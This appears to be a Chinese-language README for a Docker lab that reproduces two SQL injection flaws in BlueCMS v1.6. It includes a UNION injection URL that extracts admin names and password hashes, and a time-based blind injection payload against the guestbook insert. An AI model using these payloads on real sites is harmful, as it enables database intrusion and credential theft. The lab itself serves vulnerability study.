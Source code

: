 ## 启动环境

```
docker-compose build
docker-compose up -d
```

## 漏洞一:
一个标准的整数型显错式联合查询注入
 
```html
http://127.0.0.1/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,concat(admin_name,0x23,pwd) from blue_admin limit 1
```


![](README/60AE6D96-68BF-4366-B015-5746C24043C8.png)


## 漏洞二:
![](README/31C39041-5035-4A93-A1A0-32CA0E954C56.png)

![](README/DFC255A1-DCB1-49FE-9FB9-FDDA322F610D.png)


一个典型的insertsql注入漏洞

访问页面 http://127.0.0.1/guest_book.php
![](README/B645153A-67F1-4474-8438-CED43D2BD105.png)

一般显错注入:查看当前数据库
![](README/78C908AA-A735-4BB0-92CE-16DD7A41988E.png)
![](README/912EFAB7-E4EC-4E93-98AE-07F988B8B940.png)

![](README/01970D90-3A5E-416F-A970-00D8BA13B12E.png)


时间盲注Payload
```
127.0.0.1','luffy' || if((select count(*) from information_schema.tables where TABLE_SCHEMA='bluecms')=29,sleep(2),1))#
```

![](README/EFCA5451-0BE5-449A-9BDC-DB4D202C62C0.png)






链接
[【Code Review】bluecms v1.6 Sql Injection 分析](https://blog.0kami.cn/2017/01/11/old-bluecms-v1-6-Sql-Injection/)
[利用insert、update和delete注入获得数据 - babers - 博客园](https://www.cnblogs.com/babers/articles/7252401.html)
[无痕渗透“INSERT INTO”型SQL注入 - 逆水行舟 - CSDN博客](https://blog.csdn.net/hwz2311245/article/details/53941523)
[【SQL注入】insert、update和delete时间盲注 - Vinc's Blog](http://vinc.top/2017/04/06/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91insert%E3%80%81update%E5%92%8Cdelete%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8/)
[Insert和Update型SQL注入的实践之旅 | BlackWolf's Blog](http://blackwolfsec.cc/2018/07/30/sql_update_insert/)